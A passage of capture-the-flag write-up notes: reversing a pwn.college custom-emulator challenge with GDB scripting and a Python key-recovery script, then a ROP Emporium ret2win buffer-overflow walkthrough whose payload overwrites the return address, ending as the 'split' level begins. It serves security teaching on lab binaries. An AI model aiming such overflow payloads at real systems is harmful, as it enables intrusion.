printf "[s] ... popping "
describe_reg ($rsi>>$shift_a1&0xff)
printf "\n"
continue
end
break interpret_stm
commands
vm_state
vm_instruction
printf "[s] STM *"
describe_reg ($rsi>>$shift_a1&0xff)
printf " = "
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
continue
end
break interpret_ldm
commands
vm_state
vm_instruction
printf "[s] LDM "
describe_reg ($rsi>>$shift_a1&0xff)
printf " = *"
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
continue
end
break interpret_cmp
commands
vm_state
vm_instruction
printf "[s] CMP "
describe_reg ($rsi>>$shift_a1&0xff)
printf " "
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
continue
end
break interpret_jmp
commands
vm_state
vm_instruction
printf "[s] JMP "
describe_jmp ($rsi>>$shift_a1&0xff)
printf " "
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
continue
end
break interpret_sys
commands
vm_state
vm_instruction
printf "[s] SYS %#x ", $rsi>>$shift_a1&0xff
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
printf "[s] ... "
describe_sys ($rsi>>$shift_a1&0xff)
printf " \n"
continue
end
break crash
commands
vm_instruction
printf "[s] CRASH\n"
continue
end
- Finally, end with
continueso that GDB will be able to continue execution of program:
continue
- Run GDB in batch mode with the script just written:
$
gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb
Breakpoint 9, 0x000056246321f7f5 in interpret_sys ()
[V] reg_0x3fc:0 reg_0x3fd:0x40 reg_0x3fe:0xe reg_0x3ff:0xb reg_0x400:0xe reg_0x401:0x46 reg_0x402:0
[I] op:0x8 arg1:0x8 arg2:0x1
[s] SYS 0x8 reg_0x3ff
[s] ... read_memory
- It stops and waits for input from STDIN, input
AAAAAAAAto see what happens:
[...]
Breakpoint 9, 0x000056246321f7f5 in interpret_sys ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xa reg_0x400:0x16 reg_0x401:0x87 reg_0x402:0x5
[I] op:0x8 arg1:0x4 arg2:0x1
[s] SYS 0x4 reg_0x3ff
[s] ... write
INCORRECT!
Breakpoint 2, 0x000056246321f491 in interpret_imm ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xb reg_0x400:0x16 reg_0x401:0x88 reg_0x402:0x5
[I] op:0x1 arg1:0x20 arg2:0x1
[s] IMM reg_0x3fc = 0x1
Breakpoint 9, 0x000056246321f7f5 in interpret_sys ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xb reg_0x400:0x16 reg_0x401:0x89 reg_0x402:0x5
[I] op:0x8 arg1:0x2 arg2:0
[s] SYS 0x2 NONE
[s] ... exit
AAAAAAAAwas incorrect- Different input can be altered and piped in using a simple inline Python command:
$
python -c "import sys; sys.stdout.buffer.write(b'\x41'*20)" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb
[...]
Breakpoint 9, 0x000056246321f7f5 in interpret_sys ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xa reg_0x400:0x16 reg_0x401:0x87 reg_0x402:0x5
[I] op:0x8 arg1:0x4 arg2:0x1
[s] SYS 0x4 reg_0x3ff
[s] ... write
INCORRECT!
Breakpoint 2, 0x000056246321f491 in interpret_imm ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xb reg_0x400:0x16 reg_0x401:0x88 reg_0x402:0x5
[I] op:0x1 arg1:0x20 arg2:0x1
[s] IMM reg_0x3fc = 0x1
Breakpoint 9, 0x000056246321f7f5 in interpret_sys ()
[V] reg_0x3fc:0x1 reg_0x3fd:0xc reg_0x3fe:0xb reg_0x3ff:0xb reg_0x400:0x16 reg_0x401:0x89 reg_0x402:0x5
[I] op:0x8 arg1:0x2 arg2:0
[s] SYS 0x2 NONE
[s] ... exit
- But the above input was still incorrect
Identifying the Instruction Pointer Register
- Analyse the output in more detail by
grepping for the somewhere near the start and selecting the 50 lines after it:
$
python -c "import sys; sys.stdout.buffer.write(b'\x41'*20)" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -A50 "\[+\] Starting interpreter loop! Good luck!"
[+] Starting interpreter loop! Good luck!
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0 reg_0x3ff:0 reg_0x400:0 reg_0x401:0x1 reg_0x402:0
[I] op:0x1 arg1:0x1 arg2:0x47
[s] IMM reg_0x3ff = 0x47
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0 reg_0x3ff:0x47 reg_0x400:0 reg_0x401:0x2 reg_0x402:0
[I] op:0x1 arg1:0x10 arg2:0x89
[s] IMM reg_0x3fe = 0x89
Breakpoint 5, 0x000055f95929e5e6 in interpret_stm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x89 reg_0x3ff:0x47 reg_0x400:0 reg_0x401:0x3 reg_0x402:0
[I] op:0x40 arg1:0x10 arg2:0x1
[s] STM *reg_0x3fe = reg_0x3ff
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x89 reg_0x3ff:0x47 reg_0x400:0 reg_0x401:0x4 reg_0x402:0
[I] op:0x1 arg1:0x1 arg2:0x2e
[s] IMM reg_0x3ff = 0x2e
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x89 reg_0x3ff:0x2e reg_0x400:0 reg_0x401:0x5 reg_0x402:0
[I] op:0x1 arg1:0x10 arg2:0x8f
[s] IMM reg_0x3fe = 0x8f
Breakpoint 5, 0x000055f95929e5e6 in interpret_stm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8f reg_0x3ff:0x2e reg_0x400:0 reg_0x401:0x6 reg_0x402:0
[I] op:0x40 arg1:0x10 arg2:0x1
[s] STM *reg_0x3fe = reg_0x3ff
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8f reg_0x3ff:0x2e reg_0x400:0 reg_0x401:0x7 reg_0x402:0
[I] op:0x1 arg1:0x1 arg2:0x4c
[s] IMM reg_0x3ff = 0x4c
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8f reg_0x3ff:0x4c reg_0x400:0 reg_0x401:0x8 reg_0x402:0
[I] op:0x1 arg1:0x10 arg2:0x82
[s] IMM reg_0x3fe = 0x82
Breakpoint 5, 0x000055f95929e5e6 in interpret_stm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x82 reg_0x3ff:0x4c reg_0x400:0 reg_0x401:0x9 reg_0x402:0
[I] op:0x40 arg1:0x10 arg2:0x1
[s] STM *reg_0x3fe = reg_0x3ff
Breakpoint 2, 0x000055f95929e491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x82 reg_0x3ff:0x4c reg_0x400:0 reg_0x401:0xa reg_0x402:0
[I] op:0x1 arg1:0x1 arg2:0xab
[s] IMM reg_0x3ff = 0xab
reg_0x401is incrementing by 1 at each new instruction, so this again confirms the assumption that this register is keeping track of the instruction pointer
Identifying the Stack Pointer Register
- Now grep for some specific instructions (starting with
STK) and print some lines above and below:
$
python -c "import sys; sys.stdout.buffer.write(b'\x41'*20)" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A5 "STK" | grep -v "... popping NONE" | grep -v "... pushing NONE"
- Using
-vtag, exclude lines that print "... popping NONE" and "... pushing NONE", as these are a result of the GDB script not being refined enough to work out when an in instruction is a push only or a pop only instruction
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8c reg_0x3ff:0xc2 reg_0x400:0 reg_0x401:0x1f reg_0x402:0
[I] op:0x4 arg1:0 arg2:0x20
[s] STK NONE reg_0x3fc
[s] ... pushing reg_0x3fc
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8c reg_0x3ff:0xc2 reg_0x400:0x1 reg_0x401:0x20 reg_0x402:0
[I] op:0x4 arg1:0 arg2:0x8
[s] STK NONE reg_0x3fd
[s] ... pushing reg_0x3fd
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8c reg_0x3ff:0xc2 reg_0x400:0x2 reg_0x401:0x21 reg_0x402:0
[I] op:0x4 arg1:0 arg2:0x10
[s] STK NONE reg_0x3fe
[s] ... pushing reg_0x3fe
Breakpoint 2, 0x0000562462367491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0 reg_0x3fe:0x8c reg_0x3ff:0xc2 reg_0x400:0x3 reg_0x401:0x22 reg_0x402:0
--
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0x4 reg_0x3fe:0x8c reg_0x3ff:0x45 reg_0x400:0x3 reg_0x401:0x25 reg_0x402:0
[I] op:0x4 arg1:0 arg2:0x1
[s] STK NONE reg_0x3ff
[s] ... pushing reg_0x3ff
Breakpoint 2, 0x0000562462367491 in interpret_imm ()
[V] reg_0x3fc:0 reg_0x3fd:0x4 reg_0x3fe:0x8c reg_0x3ff:0x45 reg_0x400:0x4 reg_0x401:0x26 reg_0x402:0
[...]
- From the above output, it can be seen that the line showing the register state after each push instruction, the value of
reg_0x400increases - If we keep looking through the output, there are some pop instructions:
[...]
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0x40 reg_0x3fe:0xe reg_0x3ff:0xe reg_0x400:0xe reg_0x401:0x47 reg_0x402:0
[I] op:0x4 arg1:0x10 arg2:0
[s] STK reg_0x3fe NONE
[s] ... popping reg_0x3fe
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0x40 reg_0x3fe:0x20 reg_0x3ff:0xe reg_0x400:0xd reg_0x401:0x48 reg_0x402:0
[I] op:0x4 arg1:0x8 arg2:0
[s] STK reg_0x3fd NONE
[s] ... popping reg_0x3fd
Breakpoint 4, 0x0000562462367527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0x3a reg_0x3fe:0x20 reg_0x3ff:0xe reg_0x400:0xc reg_0x401:0x49 reg_0x402:0
[I] op:0x4 arg1:0x20 arg2:0
[s] STK reg_0x3fc NONE
[s] ... popping reg_0x3fc
Breakpoint 2, 0x0000562462367491 in interpret_imm ()
[V] reg_0x3fc:0x59 reg_0x3fd:0x3a reg_0x3fe:0x20 reg_0x3ff:0xe reg_0x400:0xb reg_0x401:0x4a reg_0x402:0
[...]
- From the above output, it can be seen that the line showing the register state after each pop instruction, the value of
reg_0x400decreases - Therefore
reg_0x400should be the stack pointer - Some instructions are a push and a pop in the same instruction, e.g.:
[...]
Breakpoint 4, 0x0000556ee88bd527 in interpret_stk ()
[V] reg_0x3fc:0x4b reg_0x3fd:0x8f reg_0x3fe:0xc reg_0x3ff:0x6a reg_0x400:0xc reg_0x401:0x6b reg_0x402:0x5
[I] op:0x4 arg1:0x1 arg2:0x10
[s] STK reg_0x3ff reg_0x3fe
[s] ... pushing reg_0x3fe
[s] ... popping reg_0x3ff
Breakpoint 4, 0x0000556ee88bd527 in interpret_stk ()
[V] reg_0x3fc:0x4b reg_0x3fd:0x8f reg_0x3fe:0xc reg_0x3ff:0xc reg_0x400:0xc reg_0x401:0x6c reg_0x402:0x5
[...]
- The line showing the register state after each push-pop instruction, the value of
reg_0x400stays the same - The above output shows that the value in
reg_0x3feis first pushed on to the stack and immediately popped intoreg_0x3ff
Identifying the Flag Register
- Now send forty b'\x41' bytes, grep for
CMPinstruction and print some lines above and below:
$
python -c "import sys; sys.stdout.buffer.write(b'\x41'*40)" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A3 "CMP"
Breakpoint 7, 0x00005628cc387698 in interpret_cmp ()
[V] reg_0x3fc:0x41 reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x60 reg_0x402:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP reg_0x3fc reg_0x3fd
Breakpoint 4, 0x00005628cc387527 in interpret_stk ()
[V] reg_0x3fc:0x41 reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x61 reg_0x402:0x5
[...]
- So the first time the breakpoint hits the
interpret_cmpinstruction it's comparingreg_0x3fc:0x41vsreg_0x3fd:0x2e reg_0x3fcvalue is 0x41, which looks like it could be one of our inputted values- From the previous static analysis using radare2, the
interpret_cmpinstruction set flags in the following manner:
# Pseudo Python code for notes purposes only
flag_value = ''
if cmp_x < cmp_y: flag_value += flag_value | 0x10 # i.e. 'L'
if cmp_x > cmp_y: flag_value += flag_value | 0x01 # i.e. 'G'
if cmp_x == cmp_y: flag_value += flag_value | 0x02 # i.e. 'E'
if cmp_x != cmp_y: flag_value += flag_value | 0x04 # i.e. 'N'
if cmp_x == cmp_y == 0: flag_value += flag_value | 0x08 # i.e. 'Z'
- 0x41 > 0x2e and they are not equal, so we expect flag_value to be
or'd with both 0x01 and 0x04, which equates to 0x05 - The line showing the register state after the cmp instruction, the value of
reg_0x402changes to 0x05 - Try again with different input (this time, forty null bytes):
$
python -c "import sys; sys.stdout.buffer.write(b'\x00'*40)" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A3 "CMP"
Breakpoint 7, 0x000056067b2c8698 in interpret_cmp ()
[V] reg_0x3fc:0 reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x60 reg_0x402:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP reg_0x3fc reg_0x3fd
Breakpoint 4, 0x000056067b2c8527 in interpret_stk ()
[V] reg_0x3fc:0 reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x61 reg_0x402:0x14
[...]
- For the null bytes input, the first time it hits the
interpret_cmpbreakpoint, it's comparingreg_0x3fc:0x00vsreg_0x3fd:0x2e - Again,
reg_0x3fcvalue (0x00) looks like it's one of our inputted values - 0x00 < 0x2e and they are not equal, so we expect flag_value to be
or'd with both 0x10 and 0x04, which equates 0x14 - The line showing the register state after the cmp instruction, the value of
reg_0x402changes to 0x14, so the assumptions on theinterpret_cmpinstruction appear correct so far - This time, try a non-repeating pattern as input to see which index of our input is used in the comparison:
$
python -c "import sys; sys.stdout.buffer.write(b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A3 "CMP"
Breakpoint 7, 0x000055b0ca655698 in interpret_cmp ()
[V] reg_0x3fc:0xec reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x60 reg_0x402:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP reg_0x3fc reg_0x3fd
Breakpoint 4, 0x000055b0ca655527 in interpret_stk ()
[V] reg_0x3fc:0xec reg_0x3fd:0x2e reg_0x3fe:0xc reg_0x3ff:0xff reg_0x400:0xe reg_0x401:0x61 reg_0x402:0x5
[...]
- From above output, the comparison is now between
reg_0x3fc:0xecvsreg_0x3fd:0x2e, so let's summarise, update assumptions and refine the GDB script in the step below
Summary of Part 2
reg_0x3fc,reg_0x3fd,reg_0x3fe,reg_0x3ffseem to be general purpose registersreg_0x400is the stack pointer registerreg_0x401is the instruction pointer registerreg_0x402is the flag register that uses bitmasks to set relevant flags- Sending input of
b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'led to first comparison being made by emulator between 0xec and 0x2e - Each instruction is size 3 bytes (Note: the instruction order can change for different versions of the ELF binary)
- Register, opcode, syscall, compare lookup values are known (Note: the register, opcode, syscall and cmp mappings can change for different versions of the ELF binary)
- Rename registers based on new info:
# Pseudo Python code for notes purposes only
registers = {
a: 0x20, # (case 32)
b: 0x08, # (case 08)
c: 0x10, # (case 16)
d: 0x01, # (case 01)
s: 0x02, # (case 02)
i: 0x04, # (case 04)
f: 0x40, # (case 40)
}
opcodes = {
'imm': 0x01,
'add': 0x02,
'stk': 0x04,
'stm': 0x40,
'ldm': 0x80,
'cmp': 0x20,
'jmp': 0x10,
'sys': 0x08,
}
syscalls = {
'open' : 0x20,
'read_code' : 0x01,
'read_memory' : 0x08,
'write' : 0x04,
'sleep' : 0x10,
'exit' : 0x02,
}
jump_description = ''
if flag_value & 0x10: jump_description += 'L'
if flag_value & 0x01: jump_description += 'G'
if flag_value & 0x02: jump_description += 'E'
if flag_value & 0x04: jump_description += 'N'
if flag_value & 0x08: jump_description += 'Z'
- Update GDB script with new register names:
[...]
define describe_reg
if $arg0 == 0x20
printf "a"
end
if $arg0 == 0x08
printf "b"
end
if $arg0 == 0x10
printf "c"
end
if $arg0 == 0x01
printf "d"
end
if $arg0 == 0x02
printf "s"
end
if $arg0 == 0x04
printf "i"
end
if $arg0 == 0x40
printf "f"
end
if $arg0 == 0x00
printf "NONE"
end
end
[...]
define vm_state
set $reg_state = (long long) *(void**) ($rsp + $reg_offs)
printf "[V] a:%#x b:%#x c:%#x d:%#x s:%#x i:%#x f:%#x\n", $reg_state >> 0x00 & 0xff, $reg_state >> 0x08 & 0xff, $reg_state >> 0x10 & 0xff, $reg_state >> 0x18 & 0xff, $reg_state >> 0x20 & 0xff, $reg_state >> 0x28 & 0xff, $reg_state >> 0x30 & 0xff
end
[...]
[Part 3] Crafting the Solution
- With revised GDB script, try a non-repeating pattern as input, but change the 0xec to 0x2e:
$
python -c "import sys; sys.stdout.buffer.write(b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\x2e\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A3 "CMP"
- This time the output is different, there are more comparisons:
Breakpoint 7, 0x0000563eab40e698 in interpret_cmp ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x60 f:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
Breakpoint 4, 0x0000563eab40e527 in interpret_stk ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x61 f:0x2
--
Breakpoint 7, 0x0000563eab40e698 in interpret_cmp ()
[V] a:0x4b b:0x8f c:0xb d:0 s:0xc i:0x68 f:0x2
[I] op:0x20 arg1:0x10 arg2:0x1
[s] CMP c d
Breakpoint 2, 0x0000563eab40e491 in interpret_imm ()
[V] a:0x4b b:0x8f c:0xb d:0 s:0xc i:0x69 f:0x5
--
Breakpoint 7, 0x0000563eab40e698 in interpret_cmp ()
[V] a:0xeb b:0x90 c:0xb d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
Breakpoint 4, 0x0000563eab40e527 in interpret_stk ()
[V] a:0xeb b:0x90 c:0xb d:0xff s:0xe i:0x61 f:0x5
[...]
- Now try changing the 0xeb to 0x90 and only grep for "CMP a b" as this looks like the important comparison:
$
python -c "import sys; sys.stdout.buffer.write(b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\x90\x2e\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 -A3 "CMP a b"
- Again the output is different as there's also a comparison between 0xea and 0x3b, looks like we're making progress:
Breakpoint 7, 0x0000562fa1832698 in interpret_cmp ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x60 f:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
Breakpoint 4, 0x0000562fa1832527 in interpret_stk ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x61 f:0x2
--
Breakpoint 7, 0x0000562fa1832698 in interpret_cmp ()
[V] a:0x90 b:0x90 c:0xb d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
Breakpoint 4, 0x0000562fa1832527 in interpret_stk ()
[V] a:0x90 b:0x90 c:0xb d:0xff s:0xe i:0x61 f:0x2
--
Breakpoint 7, 0x0000562fa1832698 in interpret_cmp ()
[V] a:0xea b:0x3b c:0xa d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
Breakpoint 4, 0x0000562fa1832527 in interpret_stk ()
[V] a:0xea b:0x3b c:0xa d:0xff s:0xe i:0x61 f:0x5
- As it seems like our input from 0xed onward is being discarded, let's continue on this basis and also keep updating the compared value to what it seems like the program wants (also don't bother
grepping for the lines after the specifed criteria):
$
python -c "import sys; sys.stdout.buffer.write(b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\x3b\x90\x2e')" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 "CMP a b"
Breakpoint 7, 0x000055d923803698 in interpret_cmp ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x60 f:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055d923803698 in interpret_cmp ()
[V] a:0x90 b:0x90 c:0xb d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055d923803698 in interpret_cmp ()
[V] a:0x3b b:0x3b c:0xa d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055d923803698 in interpret_cmp ()
[V] a:0xe9 b:0xc2 c:0x9 d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
- Keep going, change 0xe9 to 0xc2
$
python -c "import sys; sys.stdout.buffer.write(b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xc2\x3b\x90\x2e')" | gdb /level14_testing1 -batch -x /tmp/rev_level14_testing1.gdb | grep -B3 "CMP a b"
Breakpoint 7, 0x000055c98537f698 in interpret_cmp ()
[V] a:0x2e b:0x2e c:0xc d:0xff s:0xe i:0x60 f:0
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055c98537f698 in interpret_cmp ()
[V] a:0x90 b:0x90 c:0xb d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055c98537f698 in interpret_cmp ()
[V] a:0x3b b:0x3b c:0xa d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055c98537f698 in interpret_cmp ()
[V] a:0xc2 b:0xc2 c:0x9 d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
--
Breakpoint 7, 0x000055c98537f698 in interpret_cmp ()
[V] a:0xe8 b:0xa8 c:0x8 d:0xff s:0xe i:0x60 f:0x5
[I] op:0x20 arg1:0x20 arg2:0x8
[s] CMP a b
- Assuming that the comparisons keep being made until the start of the input, we can either carry on in this manner, or write a script to finish the rest
- Although there aren't many comparisons left to be made, doing this manually doesn't sound interesting, so let's write a Python script to get us the flag
Get Flag Script Using Python
vim /tmp/rev_level14_testing1.py
import os
import re
import subprocess
elf_binary = '/level14_testing1'
gdb_script = '/tmp/rev_level14_testing1.gdb'
def bytes_str(bytes_obj: bytes) -> str:
# Takes bytes type object as argument and returns string in hex '\x' format
return ''.join(f'\\x{byte:02x}' for byte in bytes_obj)
def get_key() -> bytes:
key = b''.join(byte.to_bytes(1, 'big') for byte in range(0xe0, 0x100))
print('[*] Obtaining key via GDB script:')
# Loop through key attempt in reverse order as ELF binary does CMP in this order
for i in range(len(key)-1, -1, -1):
sp = subprocess.run(
['gdb', elf_binary, '-batch', '-x', gdb_script],
input = key,
stdout = subprocess.PIPE,
stderr = subprocess.PIPE,
)
out = sp.stdout.decode('latin1')
# Extract a and b from output
cmp_ab = re.findall('\[V\] a:0x(.*) b:0x(.*) c:.* d:.* s:.* f:.*\n.*\n\[s\] CMP a b', out)[::-1]
a = int(cmp_ab[i][0], 16) if len(cmp_ab)==len(key) else int(cmp_ab[0][0], 16)
b = int(cmp_ab[i][1], 16) if len(cmp_ab)==len(key) else int(cmp_ab[0][1], 16)
print(f"index={i:02d} a={hex(a)} b={hex(b)} test_key=b'{bytes_str(key)}'")
# Update key by overwriting immutable bytes object with b at index i if our input a is found
key = key[:i] + b.to_bytes(1, 'big') + key[i+1:] if key[i]==a else key[:i]
print(f'Key: {bytes_str(key)}', end='\n\n')
return key
def get_flag(key: bytes) -> str:
print('[*] Obtaining flag from setuid binary:')
sp = subprocess.run(
[elf_binary],
input = key,
stdout = subprocess.PIPE,
stderr = subprocess.PIPE,
)
out = sp.stdout.decode('latin1')
flag = re.findall('_college{(.*)}', out)
return f'pwn_college{{{flag[0]}}}' if len(flag) else ''
def main():
assert os.path.isfile(elf_binary), f'Could not find file {elf_binary}'
assert os.path.isfile(gdb_script), f'Could not find file {gdb_script}'
key = get_key()
flag = get_flag(key)
print(flag) if flag else print('Error obtaining flag')
exit(42)
if __name__=='__main__':
main()
- Run the script:
$
python /tmp/rev_level14_testing1.py
[...]
Key: \xd2\xab\x34\x27\x97\x47\x57\xa8\xc2\x3b\x90\x2e
[*] Obtaining flag from setuid binary:
pwn_college{a_secret_fake_flag}
- And there's the flag
- We can also
echothe key and pipe it to the ELF binary to confirm:
$
echo -ne "\xd2\xab\x34\x27\x97\x47\x57\xa8\xc2\x3b\x90\x2e" | /level14_testing1
[+] Welcome to /level14_testing1!
[+] This challenge is an custom emulator. It emulates a completely custom
[+] architecture that we call "Yan85"! You'll have to understand the
[+] emulator to understand the architecture, and you'll have to understand
[+] the architecture to understand the code being emulated, and you will
[+] have to understand that code to get the flag. Good luck!
[+] Starting interpreter loop! Good luck!
ENTER KEY: CORRECT! Here is your flag:
pwn_college{a_secret_fake_flag}
ROP Emporium
ROP Emporium is a great way to learn return oriented programming and it also includes a really nice guide.
ROP Emporium - 01 ret2win x86_64
ELF Binary Info
$
rabin2 -I ./ret2win
arch x86
baddr 0x400000
binsz 6739
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Get Return Address
$
rabin2 -z ./ret2win | grep /bin/cat
8 0x00000943 0x00400943 17 18 .rodata ascii /bin/cat flag.txt
$
objdump -M intel --disassemble=ret2win ./ret2win
[...]
0000000000400756 <ret2win>:
400756: 55 push rbp
400757: 48 89 e5 mov rbp,rsp
40075a: bf 26 09 40 00 mov edi,0x400926
40075f: e8 ec fd ff ff call 400550 <puts@plt>
400764: bf 43 09 40 00 mov edi,0x400943
400769: e8 f2 fd ff ff call 400560 <system@plt>
40076e: 90 nop
40076f: 5d pop rbp
400770: c3 ret
[...]
Get Flag
$
python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x64\x07\x40\x00\x00\x00\x00\x00')" | ./ret2win
ret2win by ROP Emporium
x86_64
For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!
> Thank you!
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 02 split x86_64
ELF Binary Info
$
rabin2 -I ./split
arch x86
baddr 0x400000
binsz 6805
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Get ROP Gadgets
- "/bin/cat flag.txt" string is included in binary, so utilise this by putting its address on stack
$
rabin2 -z ./split | grep /bin/cat
0 0x00001060 0x00601060 17 18 .data ascii /bin/cat flag.txt
